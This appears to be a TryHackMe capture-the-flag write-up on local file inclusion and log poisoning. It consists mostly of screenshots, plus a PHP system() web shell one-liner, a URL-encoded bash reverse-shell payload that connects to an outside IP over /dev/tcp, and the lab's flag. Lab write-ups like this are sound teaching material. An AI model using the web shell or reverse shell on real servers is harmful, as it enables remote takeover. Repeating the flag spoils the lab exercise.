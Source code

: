 ![Pasted image
20240209021724.png](https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209033647.png){.internal-embed
touched="true"}

### File Inclusion Types

![Pasted image
20240209021805.png](https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209021724.png){.internal-embed
touched="true"}

### PHP WRAPPER

    PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.
    Copy

![Pasted image
20240209033546.png]([https://github.com/sudo-awk/CTF/blob/main/THM/File_Inclusion-Path_Traversal/Pasted%20image%2020240209033546.png])){.internal-embed
touched="true"}

    Task 8 LFI2RCE - Wrappers

    I copied the `<?php system($_GET['cmd']); echo 'Shell done!'; ?>` and submitted it to the server

    Copy

![Pasted image
20240209032424.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032424.png){.internal-embed
touched="true"}

    and then I used this payload to get a reverse shell 

    page=/var/log/apache2/access.log&&cmd=/bin/bash -c '0<%26196%3Bexec 196<>%2Fdev%2Ftcp%2F10.6.29.207%2F9001%3B sh <%26196 >%26196 2>%26196'

    this is just a url encoded payload i crafted from revshells.com
    Copy

![Pasted image
20240209032701.png](/home/aaron/Documents/thm/Pasted%20image%2020240209032701.png){.internal-embed
touched="true"}

    THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc}
    Copy

    and finally the most important part is mitigation
    Copy

**![Pasted image
20240209033150.png](/home/aaron/Documents/thm/Pasted%20image%2020240209033150.png){.internal-embed
touched="true"}**
